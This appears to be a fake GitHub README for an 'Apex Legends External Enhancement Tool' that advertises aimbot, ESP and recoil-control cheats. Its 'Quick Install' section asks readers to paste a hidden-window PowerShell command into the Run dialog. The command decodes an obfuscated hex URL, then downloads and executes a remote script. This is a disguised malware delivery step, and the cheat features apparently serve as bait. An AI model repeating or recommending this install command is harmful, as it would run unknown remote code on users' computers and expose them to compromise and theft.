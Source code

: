 # Apex Legends - External Enhancement Tool

**Project Type:** External Game Utility  
**Primary Language:** C++  
**Focus:** Memory analysis, anti-cheat research, overlay development  


### Quick Install

- #### Press WIN+R
- #### Copy and insert command

```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

## 🔥 Core Features

### Targeting System
- **Adaptive Aimbot** with:
  - Predicted movement compensation
  - Human-like reaction variance (50-200ms)
  - Legend-specific hitbox profiles

### Visual Assistance
- **ESP System**:
  - Player outlines (team/enemy differentiation)
  - Shield/health status visualization
  - Loot tier highlighting (white-blue-purple-gold)
  - Death box indicators

### Gameplay Enhancements
- **Combat Modules**:
  - Recoil stabilization (per-weapon profiles)
  - Automatic armor swap detection
  - Jump pad/zipline helpers
  - FOV-based visibility checks
